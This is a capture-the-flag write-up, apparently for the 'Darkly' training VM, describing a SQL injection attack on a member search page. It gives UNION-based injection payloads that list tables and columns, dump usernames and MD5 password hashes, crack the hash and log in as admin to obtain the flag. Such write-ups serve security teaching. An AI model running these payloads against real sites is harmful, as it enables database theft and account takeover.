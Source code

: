 # SQL Injection - Login

See [SQL injection Images](https://github.com/anyashuka/Darkly/tree/master/SQL_Injection_Images) for SQL Injection description, use & prevention.

## Exploit

Go to page:

{VM_IP}/index.php?page=member

When we were doing SQL injection into the image search, we noticed something after inputting the following command:


### Get the table names in the database

```1 OR 1=1 UNION SELECT table_schema, table_name FROM information_schema.TABLES```

* First name: Member_Brute_Force,
Surname : db_default

... Maybe this means we can exploit a member's login details (name, password).

We're going to be doing the same thing here as we did in the SQL image search injection. 
Insert the following commands into the member search bar:


### Find table columns in the database for each table

```1 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.COLUMNS```

Here we find:

* First name: db_default,
Surname : id
* First name: db_default,
Surname : username
* First name: db_default,
Surname : password


### Search for the username and password of Member_Brute_Force

```1 OR 1=1 UNION SELECT username, password FROM Member_Brute_Force.db_default```

* First name: Flag,
Surname : GetThe
* First name: root,
Surname : 3bf1114a986ba87ed28fc1b5884fc2f8
* First name: admin,
Surname : 3bf1114a986ba87ed28fc1b5884fc2f8

... Aha! Let's try decrypting those with md5.

[md5_decrypt](https://md5decrypt.net)(3bf1114a986ba87ed28fc1b5884fc2f8) = shadow


### Use our newly aquired admin + password details

Let's try plugging that in on the login page:

{VM_IP}/index.php?page=signin

Username: admin, Password: shadow

The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2
